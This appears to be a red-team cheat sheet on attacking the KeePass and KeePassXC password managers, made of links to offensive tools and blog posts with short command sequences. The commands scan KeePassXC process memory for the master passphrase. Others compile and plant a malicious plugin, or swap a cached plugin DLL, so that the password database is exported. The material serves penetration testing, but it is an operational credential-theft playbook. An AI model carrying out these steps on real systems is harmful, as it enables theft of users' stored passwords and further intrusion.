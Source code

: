 # KeePass

- [https://blog.harmj0y.net/redteaming/a-case-study-in-attacking-keepass/](https://blog.harmj0y.net/redteaming/a-case-study-in-attacking-keepass/)
- [https://blog.harmj0y.net/redteaming/keethief-a-case-study-in-attacking-keepass-part-2/](https://blog.harmj0y.net/redteaming/keethief-a-case-study-in-attacking-keepass-part-2/)
- [https://habr.com/ru/post/346820/](https://habr.com/ru/post/346820/)




## KeePassXC

- [https://github.com/keepassxreboot/keepassxc](https://github.com/keepassxreboot/keepassxc)

```
PS > [System.Diagnostics.FileVersionInfo]::GetVersionInfo($(Get-Item "C:\Program Files\KeePassXC\KeePassXC.exe")).FileVersion
```



### Extract Passphrase from Memory

- [https://github.com/d3lb3/KeePass-the-Hash](https://github.com/d3lb3/KeePass-the-Hash)

```
PS > .\strings2.exe -pid (Get-Process KeePassXC) -a -wide > keepassxc_strings.txt
PS > gc .\keepassxc_strings.txt | Select-String -Pattern Passw0
PS > (gc .\keepassxc_strings.txt).length
PS > (gc .\keepassxc_strings.txt).length / 1mb
```




## DLL Hijacking

- [https://skr1x.github.io/keepass-dll-hijacking/](https://skr1x.github.io/keepass-dll-hijacking/)




## Tools



### KeeFarce

- [https://github.com/denandz/KeeFarce](https://github.com/denandz/KeeFarce)



### KeeFarceReborn

- [https://github.com/d3lb3/KeeFarceReborn](https://github.com/d3lb3/KeeFarceReborn)


#### Abusing the KeePass Plugin Cache

- [https://blog.quarkslab.com/post-exploitation-abusing-the-keepass-plugin-cache.html](https://blog.quarkslab.com/post-exploitation-abusing-the-keepass-plugin-cache.html)
- [https://github.com/d3lb3/KeeFarceReborn/tree/main/KeeFarceRebornPlugin](https://github.com/d3lb3/KeeFarceReborn/tree/main/KeeFarceRebornPlugin)

Export DB by compiling and loading a malicious plugin (requires admin's privileges to place the `.plgx` file):

```
Cmd > KeePass.exe --plgx-create C:\KeeFarceReborn\KeeFarceRebornPlugin
Cmd > copy C:\KeeFarceReborn\KeeFarceRebornPlugin.plgx "C:\Program Files\KeePass Password Safe 2\Plugins"
```

Export DB by hijacking a legit plugin DLL (requires an existent plugin in use):

```
Cmd > copy "C:\Program Files\KeePass Password Safe 2\KeePass.exe" .
Cmd > devenv /build Release KeeFarceRebornPlugin.sln
Cmd > copy C:\KeeFarceReborn\KeeFarceRebornPlugin\bin\Release\KeeFarceRebornPlugin.dll C:\Users\snovvcrash\AppData\Local\KeePass\PluginCache\3o7A46QKgc2z6Yz1JH88\LegitPlugin.dll
```



### KeePassHax

- [https://github.com/HoLLy-HaCKeR/KeePassHax](https://github.com/HoLLy-HaCKeR/KeePassHax)



### KeeThief

- [https://github.com/GhostPack/KeeThief](https://github.com/GhostPack/KeeThief)



### CrackMapExec

- [https://github.com/Porchetta-Industries/CrackMapExec/blob/master/cme/modules/keepass_discover.py](https://github.com/Porchetta-Industries/CrackMapExec/blob/master/cme/modules/keepass_discover.py)
- [https://github.com/Porchetta-Industries/CrackMapExec/blob/master/cme/modules/keepass_trigger.py](https://github.com/Porchetta-Industries/CrackMapExec/blob/master/cme/modules/keepass_trigger.py)



### KeePwn

- [https://github.com/Orange-Cyberdefense/KeePwn](https://github.com/Orange-Cyberdefense/KeePwn)
